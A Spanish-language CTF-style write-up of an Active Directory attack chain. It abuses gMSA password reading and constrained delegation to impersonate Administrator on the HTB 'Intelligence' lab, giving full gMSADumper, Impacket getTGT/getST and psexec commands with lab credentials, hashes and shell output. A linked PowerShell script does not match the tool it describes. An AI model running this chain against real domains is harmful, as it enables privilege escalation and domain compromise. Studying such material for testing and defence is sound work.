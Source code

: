 # GMSA abusing and s4u delegation attack [ReadGMSAPassword] + [AllowedToDelegate]

## Descripción del ataque

Este ataque aprovecha dos permisos clave para comprometer un entorno de Active Directory mediante una **cuenta de servicio administrada de grupo (gMSA)**:

1. **ReadGMSAPassword**: Este permiso permite leer la contraseña Kerberos asociada a la cuenta gMSA. Utilizando herramientas como [`gMSADumper.py`](https://github.com/micahvandeusen/gMSADumper), se extrae el hash NTLM de la cuenta de servicio, lo que proporciona acceso inicial para realizar operaciones en su contexto.

2. **AllowedToDelegate**: Este permiso habilita la delegación de credenciales, lo que permite a la cuenta gMSA actuar en nombre de otros usuarios. Combinando los ataques **S4U2Self** y **S4U2Proxy**, es posible generar un **Ticket de Servicio (ST)** para un SPN arbitrario (por ejemplo, `cifs/dc.intelligence.htb`) e impersonar a un usuario privilegiado como `Administrator`.

El resultado final es el acceso a recursos protegidos o sistemas críticos, explotando la configuración indebida de permisos en la cuenta gMSA.

## Objetivo y ejemplo de uso en un CTF

- El objetivo es obtener un **Ticket de Servicio (ST)** para un SPN arbitrario (como `cifs/dc.intelligence.htb`) **impersonando a un usuario privilegiado**, aprovechando que la cuenta `svc_int$` tiene permiso para delegar.

---

![Diagrama del ataque](./GMSA-abuse.png)

---

## Herramientas utilizadas

- [`gMSADumper`](https://github.com/micahvandeusen/gMSADumper)
- [`Impacket`](https://github.com/fortra/impacket)
    - [`getTGT.py`](https://github.com/fortra/impacket/blob/master/examples/getTGT.py)
    - [`getST.py`](https://github.com/fortra/impacket/blob/master/examples/getST.py)
- [`ntpdate`](https://man7.org/linux/man-pages/man8/ntpdate.8.html)
- [`nxc`](https://github.com/NextCry/nxc)

---

### Pasos del ataque

1. Ejecutar `gMSADumper.py` para extraer el hash NTLM de la cuenta `svc_int$`:
     ```bash
     python3 gMSADumper.py -u 'TED.GRAVES' -p 'Mr.Teddy' -d 'intelligence.htb'
     ```
     Resultado:
     ```
     svc_int$:::b05dfb2636385604c6d36b0ca61e35cb
     ```

2. Utilizar `getTGT.py` para obtener un TGT usando el hash NTLM de `svc_int$`:
     ```bash
     getTGT.py 'INTELLIGENCE.HTB/svc_int$' -hashes :b05dfb2636385604c6d36b0ca61e35cb
     export KRB5CCNAME=/home/kali/svc_int$.ccache
     ```

3. Impersonar al usuario `Administrator` con `getST.py`:
     ```bash
     getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :b05dfb2636385604c6d36b0ca61e35cb
     ```
     Resultado:
     ```
     [*] Requesting S4U2Proxy
     [*] Saving ticket in Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

4. Exportar el nuevo ticket:
     ```bash
     export KRB5CCNAME=Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

5. Conectarse al sistema objetivo con `psexec.py`:
     ```bash
     psexec.py -k -no-pass INTELLIGENCE.HTB/Administrator@dc.intelligence.htb
     ```

     Ejemplo de salida:
     ```
     Microsoft Windows [Version 10.0.17763.1879]
     (c) 2018 Microsoft Corporation. All rights reserved.

     C:\Windows\system32> type c:\Users\Administrator\Desktop\root.txt
     1375c5a7e7b13d7d9e063dd4629cb806
     ```

---


## Versión en powershell
- [Script](https://raw.githubusercontent.com/gtworek/PSBits/refs/heads/master/Misc/EnableSeRestorePrivilege.ps1)
- `. .\Invoke-GMSAPasswordReader.ps1`
- Invoke-GMSAPasswordReader -Command "--AccountName USERNAME"

```powershell

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 618DE65B979E02BA8D4118394450BA41
[*]       aes128_cts_hmac_sha1 : ED920AFCE973A7275C2E704311A13B02
[*]       aes256_cts_hmac_sha1 : 014BB8032BF1D4041F63B63BABD2065A425849953F0DC216643E0758C575BED9
[*]       des_cbc_md5          : 2A40AB6BAD9201B0

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 007A95BE1BE6ED38DEB848A388655B05
[*]       aes128_cts_hmac_sha1 : 92627F30F3BAEFD4BCE8E6CC6BF2C601
[*]       aes256_cts_hmac_sha1 : 203AA540B041FE0E2D6718A3FCCB11DAE2EA659B6844C3B324DEEBEF52E10FBD
[*]       des_cbc_md5          : BAC21A8F5D1576C2


```
- siendo `007A95BE1BE6ED38DEB848A388655B05` el NT hash de la cuenta


## Referencias


### ReadGMSAPassword

- [Retrieving Cleartext gMSA Passwords from Active Directory](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)
- [DSInternals PowerShell Module](https://www.powershellgallery.com/packages/DSInternals/)
- [PSgMSAPwd](https://github.com/markgamache/gMSA/tree/master/PSgMSAPwd)
- [Active Directory Security - gMSA](https://adsecurity.org/?p=36)
- [Active Directory Security - Delegation Abuse](https://adsecurity.org/?p=2535)
- [Event ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4662)
- [The Hacker Recipes - ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

### AllowedToDelegate

- [S4U - Rubeus](https://github.com/GhostPack/Rubeus#s4u)
- [Trust: Years to Earn, Seconds to Break](https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/)
- [S4U2Pwnage](https://blog.harmj0y.net/activedirectory/s4u2pwnage/)
- [Gentil Kiwi - S4U Tweet](https://twitter.com/gentilkiwi/status/806643377278173185)
- [Kerberos Delegation, SPNs, and More](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more)
- [From Kekeo to Rubeus](https://blog.harmj0y.net/redteaming/from-kekeo-to-rubeus/)
- [Another Word on Delegation](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
- [The Hacker Recipes - Delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)

